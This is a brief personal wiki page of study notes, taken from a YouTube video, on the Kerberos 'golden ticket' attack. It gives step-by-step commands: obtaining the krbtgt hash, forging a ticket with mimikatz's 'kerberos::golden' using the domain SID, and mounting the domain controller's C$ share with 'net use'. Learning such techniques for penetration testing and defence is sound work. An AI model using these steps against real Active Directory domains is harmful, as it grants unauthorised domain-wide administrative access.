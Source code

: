 <!-- TITLE: Goldenticket -->
<!-- SUBTITLE: A quick summary of Goldenticket -->

# Golden ticket
From youtube video by VbScrub  https://www.youtube.com/watch?v=o98_eRt777Y

`1.  Get the krbtgt hash
2.  Run mimikatz
3.  Get Domain sid from user and dropping last -uid from it (example drop -500 from administrator sid)
4.  kerberose::golden /domain:domainname.dom.us /sid:domainsid /user:Administrator /krbtgt:krbhash /ptt
5.  the above ptt alters the current login session.  otherwise saves as file (seems like saving as file is good but I don't know how to load from file into session).
6.  klist from cmd prompt will show what tickets you have.
7.  net use does kerberos auth - note that the dc might need to be the full machine name net use O: \\dc.domainname.dom.us\C$ `
8. 